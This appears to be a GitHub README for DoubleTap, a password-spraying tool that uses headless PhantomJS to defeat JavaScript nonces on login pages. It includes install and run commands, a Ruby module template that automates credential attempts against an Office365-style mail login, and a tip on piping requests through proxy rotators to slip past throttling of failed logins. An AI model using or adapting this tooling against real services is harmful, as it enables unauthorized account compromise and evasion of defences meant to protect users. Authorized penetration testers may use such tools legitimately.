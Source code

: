 # DoubleTap

Password spray sites that require 2+ page loads/and or dynamic nonces (JavaScript)to complete the 
authentication procedure.

DoubleTap uses the headless browser, PhantomJS, complete with JavaScript runtime, in order to load
pages and execute JavaScript that often generates things like dynamic nonces that validate the page
was actually rendered by a human.

Prerequisites:
* Docker, probably.

## Usage

The main `doubletap` script should detect if you have the required docker images build, and
build them if not.

Create files `user.list` and `pass.list` in this directory with your desired entries
(or override the `@users` and `@passwords` variables in your module code with your list locations)

From this directory, run

```sh
./doubletap -m office365 [-v]
```

![](./lib/dt.png)


## Alternate Install (without Docker)
* Install Ruby (preferably with a version manager like Rbenv or RVM)
* Install node.js (preferably with a version manager like nodeenv or n)

```
gem install 'poltergeist'
gem install 'capybara'
```

```
npm install -g phantomjs-prebuilt
```

```
ruby lib/main.rb -m MODULE [-v]
```

## Adding a Module

Copy and rename the `modules/template.rb` file and modify according to your service's needs.
The template module's source code is heavily commented to assist in creating your own custom
module.

```sh
cp modules/{template.rb,office365.rb}
sed -i 's/Tempate/Office365/g' modules/office365.rb
```

Set the `@url` variable and define what the login flow is and what constitutes
a successful login using the `#valid_login?` and `#login_flow` methods

```ruby
require_relative '../lib/core'
class Mymodule < DoubleTap

  def initialize
    super
    @url = 'http://mail.$COMPANY.com'
  end

  def login_flow(user:, pass:)
    # read lib/core for available helper methods
    visit_site
    fill_in(form_field_name: 'email', value: user)
    click_button(button_name: 'Next')
    fill_in(form_field_name: 'passwd', value: pass)
    click_button(button_name: 'Sign in')
  end

  def valid_login?
    @browser.status_code == 200
  end
end
Mymodule.new.spray!
```

## ProTips

### I want to proxy these request through some kind of anonymizer

Most companies will throttle failed attempts so it's up to the user of this library to meter
requests or pipe them through some kind of proxy rotator. Since this library is executed in a
Docker environment, your proxy server needs to be accessible from the internal Docker network.
There are many ways to achieve this but I've provided a line in `doubletap.sh` for you to uncomment
that will proxy requests made from inside the DoubleTap container.

```sh
# Uncomment the following line to enable proxying to the Docker host
PROXY_CMD="--env http_proxy='http://172.17.0.1:8080'" # This IP can be attained with `ifconfig docker0`

# Mount CWD and start container with args passed into script
sudo docker run --rm -v "${PWD}":/app $PROXY_CMD doubletap "$@"
```

### But I don't know what a successful login looks like. How am I supposed to define it?
See above. Proxy DoubleTap through Burp so you can inspect the responses and determine what
succeed/failed. In order to get the framework to stop complaining, just return True/False from the
`#valid_login?` method in your module.
